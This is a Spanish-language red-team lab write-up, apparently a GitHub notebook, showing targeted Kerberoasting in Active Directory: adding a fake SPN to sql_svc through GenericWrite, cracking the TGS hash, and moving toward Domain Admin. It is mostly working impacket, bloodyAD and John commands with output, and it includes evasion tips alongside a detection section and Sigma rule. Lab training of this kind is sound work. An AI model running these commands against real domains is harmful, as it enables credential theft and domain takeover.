




# ACL Abuse — Operación GHOST FOREST
## Fase 13: GenericWrite → Targeted Kerberoasting → Domain Admin

**Operación:** GHOST FOREST | **Adversario:** APT29 | **Framework:** MITRE ATT&CK v14  
**Fecha:** 20/05/2026 | **Operador:** Adrián Camacho  
**Técnicas:** T1222 (File/Directory Permissions) | T1558.003 (Kerberoasting) | T1110.002 (Password Cracking)

---

## Resumen

`fin.garcia` tiene el permiso `WriteProperties` (equivalente a GenericWrite) sobre el objeto AD de `sql_svc`. Este permiso permite modificar el atributo `servicePrincipalName` de sql_svc para añadir un SPN arbitrario, convirtiendo sql_svc en un objetivo de **Targeted Kerberoasting**. Una vez obtenido y crackeado el TGS, las credenciales de sql_svc dan acceso a su sesión con Unconstrained Delegation, completando el path hacia Domain Admin.

---

## 1. Enumeración del ACE — GenericWrite de fin.garcia

### Verificación via DACLEDIT desde Kali (OPSEC — sin binarios en DC)

```bash
impacket-dacledit atackcorp.local/fin.garcia:'Finance2024!' \
  -action read \
  -target sql_svc \
  -dc-ip 10.0.2.10 2>/dev/null | grep -A 8 "fin.garcia"
```

**Output:**
```
[*]     Trustee (SID)    : fin.garcia (S-1-5-21-768292631-183641691-1245477636-1105)
[*]   ACE[20] info
[*]     ACE Type         : ACCESS_ALLOWED_ACE
[*]     ACE flags        : None
[*]     Access mask      : ReadControl, WriteProperties, Self (0x20028)
```

> 📸 Captura: 

### Interpretación del Access Mask

| Bit | Permiso | Significado |
|-----|---------|-------------|
| `ReadControl (0x20000)` | Leer DACL | Puede leer permisos del objeto |
| `WriteProperties (0x20)` | **GenericWrite** | Puede modificar **cualquier atributo** del objeto |
| `Self (0x8)` | Self-write | Puede modificar atributos propios permitidos |

**`WriteProperties` incluye el atributo `servicePrincipalName`** — esto es lo que habilita el Targeted Kerberoasting.

### Confirmación en BloodHound

BloodHound representa este permiso como `GenericWrite` sobre `sql_svc` con path:

```
fin.garcia → GenericWrite → sql_svc → CoerceTGT → ATACKCORP.LOCAL → DA
```

---

## 2. Targeted Kerberoasting — Añadir SPN a sql_svc

### Concepto

El Kerberoasting estándar solo puede atacar cuentas que ya tienen SPNs registrados. Con **GenericWrite** podemos añadir un SPN arbitrario a cualquier cuenta de usuario, convirtiéndola en objetivo de Kerberoasting bajo nuestra demanda — de ahí el término "Targeted Kerberoasting".

### 2.1 Obtener TGT de fin.garcia

```bash
impacket-getTGT atackcorp.local/fin.garcia:'Finance2024!' -dc-ip 10.0.2.10
export KRB5CCNAME=fin.garcia.ccache
```

### 2.2 Añadir SPN falso a sql_svc via bloodyAD

```bash
bloodyAD -u fin.garcia -p 'Finance2024!' -d atackcorp.local \
  --host 10.0.2.10 \
  set object sql_svc servicePrincipalName -v "fake/dc01.atackcorp.local"
```

**Output:**
```
[+] sql_svc's servicePrincipalName has been updated
```

**Verificación del SPN registrado:**

```bash
impacket-GetUserSPNs atackcorp.local/fin.garcia:'Finance2024!' \
  -dc-ip 10.0.2.10 \
  -request-user sql_svc
```

```
ServicePrincipalName       Name     Delegation
-------------------------  -------  -------------
fake/dc01.atackcorp.local  sql_svc  unconstrained   ← ✅ SPN registrado
```

### 2.3 Solicitar TGS de sql_svc (Kerberoasting)

```bash
impacket-GetUserSPNs atackcorp.local/fin.garcia:'Finance2024!' \
  -dc-ip 10.0.2.10 \
  -request-user sql_svc \
  -k \
  -outputfile /tmp/sql_svc_tgs.hash
```

**Hash TGS capturado:**
```
$krb5tgs$23$*sql_svc$ATACKCORP.LOCAL$atackcorp.local/sql_svc*$b332f4fc...
```

> 📸 Captura: 

---

## 3. Cracking Offline del Hash TGS

### Construcción del diccionario (OSINT dirigido)

En un engagement real el diccionario se construye con OSINT de la empresa objetivo — patrones corporativos predecibles que raramente aparecen en diccionarios genéricos como rockyou.txt:

```bash
cat > /tmp/atackcorp_wordlist.txt << 'EOF'
Atackcorp2024!
Atackcorp2024
atackcorp2024
SQLService2024!
SQLService2024
Service2024!
SQL2024!
AtackCorp123!
AtackCorp2026!
Atackcorp@2024
Summer2024!
Winter2024!
Welcome2024!
Password2024!
Admin2024!
Service123!
Sql2024!
EOF
```

**Fuentes OSINT típicas para construir este diccionario:**
- Nombre de la empresa + año + símbolo
- Nombres de servicios conocidos (SQL, IIS, backup, etc.)
- Términos del sector
- Nombres de productos internos (identificados en LinkedIn, web corporativa, ofertas de empleo)

### Cracking con John the Ripper

```bash
john /tmp/sql_svc_tgs.hash \
  --wordlist=/tmp/atackcorp_wordlist.txt \
  --format=krb5tgs
```

**Output:**
```
SQLService2024!  (?)
1g 0:00:00:00 DONE — 1 password hash cracked
```

```bash
john /tmp/sql_svc_tgs.hash --show --format=krb5tgs
# ?:SQLService2024!
```

> 📸 Captura: 

**Contraseña obtenida:** `sql_svc:SQLService2024!`  
**Tiempo de cracking:** < 1 segundo con diccionario OSINT de 17 entradas

---

## 4. Verificación y Cierre del Path hacia DA

### Verificar acceso con sql_svc

```bash
nxc smb 10.0.2.10 -u sql_svc -p 'SQLService2024!'
# [+] atackcorp.local\sql_svc:SQLService2024!  ← ✅ Credenciales válidas
```

### Intentar DCSync con sql_svc

```bash
impacket-secretsdump atackcorp.local/sql_svc:'SQLService2024!'@10.0.2.10 -just-dc-ntlm
# [-] DRSR SessionError: ERROR_DS_DRA_BAD_DN
```

**Nota:** sql_svc no tiene permisos DCSync directos — es una cuenta de servicio sin privilegios de replicación. El path real hacia DA via sql_svc pasa por **Unconstrained Delegation** (Fase 11):

```
sql_svc comprometida (SQLService2024!)
  → sql_svc tiene TrustedForDelegation=True (Unconstrained Delegation)
  → Rubeus monitor en contexto sql_svc
  → TGT de DC-01$ capturado
  → DCSync como DC-01$ → todos los hashes del dominio → DA ✅
```

> 📸 Captura: 

---

## 5. Kill Chain Completa

```
fin.garcia (WriteProperties sobre sql_svc)
  │
  ├── 1. dacledit → confirmar GenericWrite (WriteProperties)
  ├── 2. getTGT fin.garcia → fin.garcia.ccache
  ├── 3. bloodyAD set object sql_svc servicePrincipalName
  │       → fake/dc01.atackcorp.local añadido
  ├── 4. GetUserSPNs -k → TGS $krb5tgs$23$ capturado
  ├── 5. John + wordlist OSINT → SQLService2024! crackeada (< 1s)
  ├── 6. nxc smb → sql_svc:SQLService2024! verificada
  └── 7. sql_svc → Unconstrained Delegation (Fase 11) → DA ✅
```

---

## 6. Comparativa: Kerberoasting Estándar vs Targeted

| Característica | Kerberoasting estándar | Targeted Kerberoasting |
|----------------|----------------------|----------------------|
| **Prerequisito** | Cuenta con SPN ya registrado | GenericWrite sobre cualquier cuenta |
| **Objetivo** | Solo cuentas de servicio con SPNs | Cualquier cuenta de usuario |
| **Detección** | TGS-REQ para SPNs existentes | TGS-REQ para SPNs nuevos/inusuales |
| **Herramienta** | GetUserSPNs | bloodyAD + GetUserSPNs |
| **Alcance** | Limitado a cuentas con SPNs | Cualquier cuenta con GenericWrite |

---

## 7. OPSEC

| Acción | Riesgo | Alternativa OPSEC |
|--------|--------|-------------------|
| Añadir SPN a sql_svc | Medio — cambio en atributo AD | Ejecutar en horario de baja actividad |
| TGS-REQ con SPN inusual | Medio — SPN `fake/` es anómalo | Usar SPN más realista (`http/intranet`) |
| Cracking offline | Bajo — no genera tráfico de red | N/A — operación local en Kali |
| **Limpieza** | Importante — eliminar SPN falso | `bloodyAD set object sql_svc servicePrincipalName -v ""` |

**⚠️ Limpieza post-explotación:** Eliminar el SPN añadido para evitar detección y dejar el entorno como se encontró:

```bash
bloodyAD -u fin.garcia -p 'Finance2024!' -d atackcorp.local \
  --host 10.0.2.10 \
  set object sql_svc servicePrincipalName -v "MSSQLSvc/dc01.atackcorp.local:1433"
```

---

## 8. Detección (Blue Team)

| Indicador | Event ID | Descripción |
|-----------|----------|-------------|
| Modificación de `servicePrincipalName` | 5136 | Atributo SPN modificado en objeto AD |
| TGS-REQ para SPN nuevo/inusual | 4769 | Solicitud de ticket para SPN no estándar |
| Acceso SMB con credenciales de servicio | 4624 | sql_svc autenticando interactivamente |

### Regla SIGMA

```yaml
title: Suspicious SPN Added to User Account
detection:
  selection:
    EventID: 5136
    AttributeLDAPDisplayName: 'servicePrincipalName'
    ObjectClass: 'user'
  filter:
    SubjectUserName|endswith: '$'   # Excluir cambios de cuentas de máquina
  condition: selection and not filter
```

---

## 9. MITRE ATT&CK Mapping

| Técnica | ID | Descripción |
|---------|-----|-------------|
| File and Directory Permissions Modification | T1222 | GenericWrite sobre objeto AD |
| Steal or Forge Kerberos Tickets: Kerberoasting | T1558.003 | TGS capturado via SPN añadido |
| Brute Force: Password Cracking | T1110.002 | Hash TGS crackeado offline |
| Valid Accounts: Domain Accounts | T1078.002 | sql_svc comprometida |

---

*Operación GHOST FOREST — Adrián Camacho | Mayo 2026*  
*Entorno de laboratorio — Únicamente con fines educativos*